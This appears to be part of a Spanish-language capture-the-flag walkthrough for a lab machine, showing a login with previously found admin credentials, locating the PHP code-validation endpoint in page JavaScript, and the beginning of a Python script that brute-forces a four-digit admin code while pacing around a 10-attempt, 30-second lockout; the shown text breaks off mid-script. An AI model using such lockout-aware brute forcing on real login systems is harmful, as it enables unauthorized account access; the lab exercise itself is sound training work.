 Veremos un login, pero recordemos que obtuvimos unas credenciales las cuales probaremos a meter en el login:

```
User: admin
Pass: PASSWORDADMINSUPERSECRET
```

Y veremos que entramos en una especie de `Admin panel` en el que tendremos que meter un codigo para identificarnos como el usuario `administrador`, pero como no lo sabemos podemos probar fuerza bruta, tambien tenemos que ver que tenemos `10` intentos y pasados dichos intentos se nos bloqueara unos `30` segundos hasta poder obtener `10` intentos mas, por lo que nos montaremos un script con todas estas caracteristicas.

Pero tendremos que poner la `URL` donde se esta validando todo esto del codigo y si inspeccionamos el codigo de la pagina, veremos que se esta validando en este `.php` que esta en el `javascript`:

```javascript
async function submitCode(event) {
            event.preventDefault();
            const formData = new FormData(event.target);
            const response = await fetch('pageadmincodeloginvalidation.php', {
                method: 'POST',
                body: formData,
            });
            const data = await response.json();
```

## Fuerza bruta del codigo admin

> bruteForceCode.py

```python
#!/bin/python3

import requests
import time

# URL del formulario PHP que maneja el código
url = 'http://lifeordead.dl/pageadmincodeloginvalidation.php'

# La sesión se mantiene abierta para manejar cookies y encabezados
session = requests.Session()

# Función para enviar el código
def send_code(code):
    # Creamos el payload con el código
    payload = {'code': code}
    response = session.post(url, data=payload)
    return response

# Función para realizar el ataque de fuerza bruta
def brute_force():
    max_attempts = 10  # Intentos máximos
    block_time = 30  # Tiempo de bloqueo en segundos
    attempts_left = max_attempts  # Intentos restantes que se actualizan según el servidor
    current_code = 0  # Empezamos con el código 0000

    while True:
        code_str = f'{current_code:04}'  # Formateamos el código con 4 dígitos
        print(f"Intentando código: {code_str}")

        # Enviar el código al servidor
        response = send_code(code_str)

        if response.status_code == 200:
            try:
```
